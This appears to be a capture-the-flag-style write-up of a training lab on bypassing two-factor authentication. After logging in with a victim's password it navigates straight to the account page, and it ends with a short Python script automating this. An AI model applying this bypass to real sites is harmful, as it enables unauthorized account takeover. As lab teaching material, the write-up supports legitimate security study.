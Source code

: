 # Lab: 2FA simple bypass

This lab's two-factor authentication can be bypassed. You have already obtained a valid username and password, but do not have access to the user's 2FA verification code. To solve the lab, access Carlos's account page.

- Your credentials: wiener:peter
- Victim's credentials carlos:montoya

We log in with our credentials to observe the behavior of the site. It asks for a 2FA, we click on `Email client`, receive the `OTP`, access the `wiener` dashboard, and from there, we obtain the general path to the dashboards.

We log in with Carlos' credentials and see that it asks for a 2FA:
![image](https://github.com/user-attachments/assets/0e1ee201-4512-4f60-8c8b-26616ace93bb)

When we check the Burp history, we can see that the 2FA is processed after the login has been handled:
![image](https://github.com/user-attachments/assets/a681a079-25bf-4112-bc79-989d14d037a1)

We also see that the server returns a `302 Found` with the session cookie, which gives us a hint that the 2FA is processed after successfully logging in:
![image](https://github.com/user-attachments/assets/ff1215bb-1bd2-42f2-b128-4a40528b9434)


We navigate to the main dashboard of the user `carlos` and complete the lab:
![image](https://github.com/user-attachments/assets/70c8b194-7bd8-40ab-9b9a-d1b50a5a4297)

---
# Exploit

```python
import re
import requests
import urllib3


urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
proxies = {'http': 'http://127.0.0.1:8080', 'https': 'http://127.0.0.1:8080'}
session = requests.Session()
url = 'https://0a2000bd04de5848917b62f2000c004f.web-security-academy.net'

url_login = url + "/login"
data = {"username":"carlos", "password":"montoya"}
resp = session.post(url_login, data=data, verify=False, proxies=proxies)

url_carlos_account = url + "/my-account?id=carlos"
r_carlos_account = session.get(url_carlos_account, verify=False, proxies=proxies)

if r_carlos_account.status_code == 200:
    print("Congratulations, you solved the lab!")```
